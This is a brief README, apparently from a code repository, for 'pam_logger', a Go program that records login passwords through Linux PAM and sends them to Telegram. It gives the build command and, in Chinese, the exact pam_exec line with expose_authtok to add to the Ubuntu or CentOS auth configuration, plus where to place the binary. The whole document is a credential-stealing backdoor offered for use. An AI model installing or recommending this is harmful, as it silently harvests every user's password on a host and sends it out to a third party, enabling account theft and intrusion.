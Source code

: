 # pam_logger
log pam password and send in telegram
###
```
go build main.go
```
###
添加額外執行logger

ubuntu添加在/etc/pam.d/common-auth

centos 添加在/etc/pam.d/system-auth

auth optional pam_exec.so quiet expose_authtok /lib/security/pam_logger

###
然後將編譯好的main 改名放置到/lib/security/pam_logger
